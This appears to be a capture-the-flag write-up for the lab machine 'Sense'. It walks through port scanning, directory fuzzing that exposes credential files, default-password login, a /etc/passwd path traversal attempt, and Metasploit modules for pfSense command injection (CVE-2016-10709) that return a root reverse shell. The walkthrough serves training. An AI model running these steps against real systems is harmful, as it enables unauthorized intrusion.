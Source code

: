 # sense

## Summary:

- Fuzz for config files, specifically txt files; found credentials
- Found version of pfsense to find command injection vulnerability in a PHP page on pfSense via a GET parameter
- Used metasploit exploit to get root shell

First enumerate the ports and services:

```bash
sudo nmap -sC -sV 10.10.10.60 -oN nmap/sense

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35

rustscan -a 10.10.10.60 
```

There’s an http and https server. The version also seems unique; 1.4.35 lighttpd

Searching up the version reveals two vulnerabilities, an sql injection and a path traversal. Let’s keep that in mind and visit the site:

![image.png]({{ site.baseurl }}/assets/sense/image.png)

It’s a pfsense software, judging from the Title. Let’s try default password:

```bash
admin:admin
admin:pfsense
```

Let’s download the exploit we found here by searching lighttpd 1.4.35 exploit https://github.com/sp4c30x1/uc_httpd_exploit?tab=readme-ov-file

The script appends ../ after the target IP

```bash
python3 vltz.py https://10.10.10.60 /etc/passwd
```

Did not work.

Let’s fuzz:

```bash
feroxbuster -u https://10.10.10.60 -k

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u https://10.10.10.60/FUZZ -ic -e .txt

themes                  [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 37ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
includes                [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 20ms]
javascript              [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
changelog.txt           [Status: 200, Size: 271, Words: 35, Lines: 10, Duration: 26ms]
classes                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
widgets                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 26ms]
tree                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 22ms]
shortcuts               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 24ms]
installer               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
wizards                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 19ms]
                        [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 95ms]
csrf                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 27ms]
system-users.txt        [Status: 200, Size: 106, Words: 9, Lines: 7, Duration: 34ms]
```

changelog.txt:

```bash
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

system-users.txt:

```bash
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

Let’s try to log in with the obtained credential:

```bash
#The above did not work, maybe the password is default pfsense password?
rohit:pfsense
```

We are in.

![image.png]({{ site.baseurl }}/assets/sense/image%201.png)

We see that the copyright goes up to 2014, so it is probably a 2014 version. Also it says on top 2.1.3_RELEASE. Searching pfsense 2014 exploit reveal metasploit exploits are available. Let’s check:

```bash
msfconsole
search pfsense

exploit/unix/http/pfsense_group_member_exec     2017-11-06       excellent  Yes    pfSense authenticated group member RCE

use 7
set RHOSTS 10.10.10.60
set LHOST tun0
set USERNAME rohit
```

Did not work. Let’s try another:

CVE-2016-10709

command injection vulnerability in a PHP page on pfSense via a GET parameter

```bash
exploit/unix/http/pfsense_graph_injection_exec  2016-04-18       excellent  No     pfSense authenticated graph status RCE

use 6
set RHOSTS 10.10.10.60
set LHOST tun0
set USERNAME rohit

```

Success. We are in.

```bash
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png]({{ site.baseurl }}/assets/sense/image%202.png)

Seems like we are root…